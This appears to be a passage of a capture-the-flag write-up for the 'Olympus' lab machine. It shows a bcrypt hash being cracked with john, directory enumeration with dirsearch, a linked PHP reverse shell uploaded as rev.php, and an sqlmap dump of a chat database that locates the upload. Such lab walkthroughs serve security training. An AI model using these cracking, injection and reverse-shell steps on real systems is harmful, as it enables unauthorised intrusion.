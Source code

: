 <h3>john</h3>

<p><code>prometheus</code> : <code>summertime</code></p>

```bash
:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash3
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
summertime       (?)
...
Session completed. 
```

![image](https://github.com/user-attachments/assets/e78e8267-2c20-4378-ac64-3c3f08daf286)

![image](https://github.com/user-attachments/assets/dc62a3df-e319-4df1-a355-cfda870854ae)


<h3>dirsearch</h3>

```bash
:~# :~# dirsearch -u http://chat.olympus.thm/  -i200,301,302,401 -w /usr/share/dirb/wordlists/common.txt
...
301 -  325B  - /javascript  ->  http://chat.olympus.thm/javascript/
301 -  321B  - /static  ->  http://chat.olympus.thm/static/
301 -  322B  - /uploads  ->  http://chat.olympus.thm/uploads/

Task completed
```

![image](https://github.com/user-attachments/assets/69ce1870-cbeb-48ab-86d1-71dd3f3cb792)

<p>Attached: prometheus_password.txt</p>

![image](https://github.com/user-attachments/assets/3cd7b1b6-a722-4ac3-aaa3-5de950556eea)

<h3>PentestMonkey Reverse Shell --> <code>rev.php</code></h3>

<p>https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php</p>

![image](https://github.com/user-attachments/assets/f7d90d1b-001d-42f0-a2bb-76e78d67ce6a)

<h3>sqlmap</h3>

<p><code>rev.php</code> : <code>2022</code><br>
<code>prometheus_password.txt</code> : <code>47c3210d51761686f3af40a875eeaaea.txt</code></p>

```bash
:~# sqlmap -r req --dump -batch -T chats -D olympus
...
[INFO] retrieved: msg
[INFO] retrieved: dt
[INFO] retrieved: file
[INFO] fetching entries for table 'chats' in database 'olympus'
[INFO] fetching number of entries for table 'chats' in database 'olympus'
[INFO] retrieved: 5
[WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                              
47c3210d51761686f3af40a875eeaaea.txt
[02:14:07] [INFO] retrieved: 2022-04-05
[INFO] 
```
